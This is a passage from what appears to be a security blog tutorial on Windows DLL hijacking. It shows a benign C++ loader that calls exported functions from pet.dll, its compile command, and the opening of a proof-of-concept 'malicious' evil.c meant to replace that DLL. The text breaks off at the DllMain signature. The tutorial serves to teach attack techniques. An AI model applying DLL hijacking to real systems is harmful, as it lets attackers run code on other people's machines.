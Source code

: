 ```cpp
  // main dll with exported functions
  HINSTANCE petDll;

  // pets
  CatProc catFunc;
  BirdProc birdFunc;
  MouseProc mouseFunc;

  // free memory
  BOOL freeRes;

  // load pet.dll
  petDll = LoadLibrary(TEXT("pet.dll"));

  if (petDll != NULL) {
    catFunc = (CatProc) GetProcAddress(petDll, "Cat");
    birdFunc = (BirdProc) GetProcAddress(petDll, "Bird");
    mouseFunc = (MouseProc) GetProcAddress(petDll, "Mouse");
    if (catFunc != NULL) {
      (catFunc) ();
    }
    if (birdFunc != NULL) {
      (birdFunc) ();
    }
    if (mouseFunc != NULL) {
      (mouseFunc) ();
    }
    freeRes = FreeLibrary(petDll);
  }

  return 0;
}
```

Compile:
```bash
x86_64-w64-mingw32-gcc -O2 cartoon.cpp -o cartoon.exe -mconsole -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive >/dev/null 2>&1
```

![compile cartoon.cpp](/assets/images/13/2021-10-12_13-30.png){:class="img-responsive"}    

and run:

![run cartoon.exe](/assets/images/13/2021-10-12_13-34.png){:class="img-responsive"}    

![run cartoon.exe](/assets/images/13/2021-10-12_13-34_1.png){:class="img-responsive"}    

![run cartoon.exe](/assets/images/13/2021-10-12_13-35.png){:class="img-responsive"}    

And firstly, as a proof-of-concept, let's hijack my `pet.dll`.       
For this, create malicious `evil.c`:
```cpp
/*
evil.c - malicious DLL
DLL hijacking with exported functions example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
```